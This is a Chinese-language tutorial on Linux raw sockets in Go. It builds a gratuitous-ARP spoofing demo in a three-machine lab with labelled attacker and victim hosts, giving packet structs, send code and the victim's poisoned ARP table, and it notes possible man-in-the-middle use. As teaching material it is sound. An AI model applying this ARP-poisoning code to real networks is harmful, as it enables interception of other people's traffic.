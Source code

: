 Linux提供了裸socket功能，允许您直接创建一个裸L3/L2数据包，绕过OS socket生成的协议头。这意味着您可以从头开始直接生成自己的链路层或IP层数据包，对检测网络流量或从头开始创建数据包来说这是非常有用的功能

可以使用SOCK_RAW socket类型（这要求进程具有CAP_NET_RAW功能或以root用户身份运行），使用socket()syscall在Linux上使用裸socket。 Go无法通过net包支持raw socket，但是syscalls可以通过syscall包获得

我们来看一个快速程序来打开一个裸socket

```
package main;

import (
"fmt"
"syscall"
)


func main() {
  // Socket is defined as:
  // func Socket(domain, typ, proto int) (fd int, err error)
  // Domain specifies the protocol family to be used - this should be AF_PACKET
  // to indicate we want the low level packet interface
  // Type specifies the semantics of the socket
  // Protocol specifies the protocol to use - kept here as ETH_P_ALL to
  // indicate all protocols over Ethernet
  fd, err:= syscall.Socket(syscall.AF_PACKET, syscall.SOCK_RAW,
  				syscall.ETH_P_ALL)
  if (err != nil) {
    fmt.Println("Error: " + err.Error())
    return;
  }
  fmt.Println("Obtained fd ", fd)
  defer syscall.Close(fd)

  // Do something with fd here
  
}
```

毫不奇怪，程序失败，出现访问错误

```
go build raw.go ~
~/etc/gocode/raw$ ./raw
Error: operation not permitted
```

这里有两个选项：以root运行该程序，或者使用setcap将该功能授予可执行文件：
```
sudo setcap cap_net_raw=ep raw
~/etc/gocode/raw$ getcap raw
raw = cap_net_raw+ep
~/etc/gocode/raw$ ./raw
Obtained fd  3
```
## 使用Raw Sockets进行无偿ARP请求

地址解析协议（ARP）是用于确定IP地址和链路层（MAC）地址之间映射的请求/响应协议。 设备使用ARP获取具有IP地址的设备的MAC地址，反之亦然

例如，考虑以下情况：要查找10.10.10.1的MAC地址，10.10.10.2向所有设备广播ARP请求。 10.10.10.1，位于0a:00:27:00:00:01回覆MAC地址：

![image](https://css.bz/assets/arpReqResp.jpg)

当10.10.10.2收到响应时，它存储IP地址及其相关的MAC地址，以备将来参考。 您可以通过检查/proc/net/arp的内容来查看ARP表的内容
```
cat /proc/net/arp
IP address       HW type     Flags       HW address            Mask     Device
10.10.10.1         0x1         0x2         0a:00:27:00:00:01     *        eth0
```
ARP通常用于请求/响应方式，其中一个设备请求有关特定IP/MAC的信息。然而，有一类ARP请求/应答的反应是出乎意料：无偿ARP请求。无偿ARP请求有很多用途，其中特别有趣用例是宣布在硬件配置的变化：在这种情况下，设备发送一个指定其新的IP和MAC地址的广播请求数据包（或响应包） - 任何接收这些请求的设备 预计将更新具有更新的MAC地址的ARP表。 这会打开一个有趣的攻击路径，称为ARP欺骗：本地连接的设备可以轻易地欺骗这样一个请求，使用自己的MAC地址的另一台机器，从而接收到该机器的所有流量。

默认情况下，Linux忽略对不存在于ARP表中设备的所有无偿请求，但是它接受表中已经存在的IP的请求，这可能允许我们将针对特定IP的流量重定向到任何未选择的设备

我们在Go中编写一个程序来利用裸socket将ARP更新发送到通过以太网连接的设备
## Setup

我们考虑在本地局域网连接的3台设备的设置：位于10.10.10.1（攻击者）的机器A，10.10.10.2（受害者）和10.10.10.3，这是要发送数据的原始机器

|        | IP Address	                       | MAC Address         |          |
| ------ | ------------------------ | ----------- | ----------- |
| Machine A              | 10.10.10.10                         |0a:00:27:00:00:01            | Attacker        |
| Machine B            |10.10.10.2                           |08:00:27:e3:ef:0d            | Victim          |
| Machine C                  |10.10.10.3                           |08:00:27:88:09:4b           |           |

最初，机器B可以访问A和C，如ARP表所示：
```
ping 10.10.10.3 -c 3
PING 10.10.10.3 (10.10.10.3) 56(84) bytes of data.
64 bytes from 10.10.10.3: icmp_req=1 ttl=64 time=0.786 ms
64 bytes from 10.10.10.3: icmp_req=2 ttl=64 time=2.39 ms
64 bytes from 10.10.10.3: icmp_req=3 ttl=64 time=0.922 ms

--- 10.10.10.3 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2005ms
rtt min/avg/max/mdev = 0.786/1.367/2.394/0.728 ms
10.10.10.2@debian:~$ cat /proc/net/arp
IP address       HW type     Flags       HW address            Mask     Device
10.10.10.3       0x1         0x2         08:00:27:88:09:4b     *        eth0
10.10.10.1       0x1         0x2         0a:00:27:00:00:01     *        eth0
```
## 组装 packet

在裸socket中，我们提供的数据包将直接传递给设备驱动程序。 因此，我们需要在较底层协议帧（以太网）中包装我们的ARP数据包

[RFC 826](https://tools.ietf.org/html/rfc826)给了我们包的结构：
![image](https://css.bz/assets/arpEthPacket.jpg)

这可以很容易地使用CGo中的一个结构体中表示：
```
typedef struct __attribute__((packed))
{
	char dest[6];
	char sender[6];
	uint16_t protocolType;
} EthernetHeader;

typedef struct __attribute__((packed))
{
	uint16_t hwType;
	uint16_t protoType;
	char hwLen;
	char protocolLen;
	uint16_t oper;
	char SHA[6];
	char SPA[4];
	char THA[6];
	char TPA[4];
} ArpPacket;

typedef struct __attribute__((packed))
{
	EthernetHeader eth;
	ArpPacket arp;
} EthernetArpPacket;
```
我们可以填写数据包的所有字段（请注意，必须按照Go Wiki的建议从CGo完成）：
![image](https://css.bz/assets/arpPacketToSend.jpg)
## Sending the payload
打开raw socket:
```
fd, err := syscall.Socket(syscall.AF_PACKET, syscall.SOCK_RAW, syscall.ETH_P_ALL)
if err != nil {
    fmt.Println("Error: " + err.Error())
	return
}
fmt.Println("Obtained fd ", fd)
defer syscall.Close(fd)
```
分配并准备数据包，并使用Sendto系统调用程序将其发送到机器B:
```
packet := C.GoBytes(unsafe.Pointer(C.FillRequestPacketFields(iface_cstr, ip_cstr)),
					C.int(size))

var addr syscall.SockaddrLinklayer
addr.Protocol = syscall.ETH_P_ARP
addr.Ifindex = interf.Index
addr.Hatype = syscall.ARPHRD_ETHER

// Send the packet
err = syscall.Sendto(fd, packet, 0, &addr)
```
发送数据包后，看看机器B的ARP表：
```
cat /proc/net/arp
IP address       HW type     Flags       HW address            Mask     Device
10.10.10.3       0x1         0x2         0a:00:27:00:00:01     *        eth0
10.10.10.1       0x1         0x2         0a:00:27:00:00:01     *        eth0
10.10.10.2@debian:~$ ping 10.10.10.3
PING 10.10.10.3 (10.10.10.3) 56(84) bytes of data.
From 10.10.10.1: icmp_seq=2 Redirect Host(New nexthop: 10.10.10.3)
From 10.10.10.1: icmp_seq=3 Redirect Host(New nexthop: 10.10.10.3)
From 10.10.10.1: icmp_seq=4 Redirect Host(New nexthop: 10.10.10.3)
From 10.10.10.1: icmp_seq=5 Redirect Host(New nexthop: 10.10.10.3)
From 10.10.10.1: icmp_seq=6 Redirect Host(New nexthop: 10.10.10.3)
From 10.10.10.1: icmp_seq=8 Redirect Host(New nexthop: 10.10.10.3)
64 bytes from 10.10.10.3: icmp_req=9 ttl=64 time=0.147 ms
64 bytes from 10.10.10.3: icmp_req=10 ttl=64 time=3.94 ms
```
我们可以看到，我们已经成功地让B机器相信机器A已经改变了它的位置 - 我们可以看到机器A（10.10.10.1）实际上正在接收到用于机器C（10.10.10.3）的数据包：
![image](https://css.bz/assets/spoofWiresh.jpg)

在这种情况下，我们不处理由机器A接收（原本由机器C接接收）的数据包，因此它不断响应ICMP重定向，直到机器B终于重新发送机器C的ARP请求。ARP请求的响应，也是相当琐碎的回应报文，也可以进行某种形式的中间人攻击。

整个程序在[这里](https://github.com/login/oauth/authorize?client_id=7e0a3cd836d3e544dbd9&redirect_uri=https%3A%2F%2Fgist.github.com%2Fauth%2Fgithub%2Fcallback%3Freturn_to%3Dhttps%253A%252F%252Fgist.github.com%252FPollenPolle%252Fada4d123a4579f3e22f2c5e30e6f4a02&response_type=code&state=fab753395b5fe17273a0d28d64b7e2cf67d19c2e188a94cea7605f912ed30fdf)
